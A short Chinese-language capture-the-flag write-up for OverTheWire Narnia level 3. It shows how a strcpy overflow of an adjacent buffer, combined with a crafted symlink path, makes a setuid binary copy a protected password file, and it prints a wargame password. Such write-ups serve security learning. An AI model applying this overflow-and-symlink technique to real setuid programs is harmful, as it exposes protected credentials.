

### 解題思路


ofile 在高地址，ifile 在低地址。我們可以透過 strcpy(ifile, argv[1]) 覆寫到 ofile. 

ofile 是16-byte in size, ifile 是 32-byte in size. 

檢查 ofile 和 ifle 地址是否相鄰


ifile 是 ebp-0x38, 0x38 is 56 in decimal. ofile 是 ebp-0x18(24 in decimal). 56 和 24 的差剛好是32. 因此ofile 和 ifile 地址是相鄰的。
接下來就是,

```
mkdir -p /tmp/fuck1/AAAAAAAAAAAAAAAAAAAAA/tmp/fuck1/
ln -s /etc/narnia_pass/narnia4 /tmp/fuck1/AAAAAAAAAAAAAAAAAAAAA/tmp/fuck1/shit
touch /tmp/fuck1/shit
chmod 777 /tmp/fuck1/shit
./narnia3 /tmp/fuck1/AAAAAAAAAAAAAAAAAAAAA/tmp/fuck1/shit
```
會讀取 /tmp/fuck1/AAAAAAAAAAAAAAAAAAAAA/tmp/fuck1/shit 也就是 /etc/narnia_pass 的内容寫進 /tmp/fuck1/shit


cat /etc/narnia_pass/narnia3: iqNWNk173q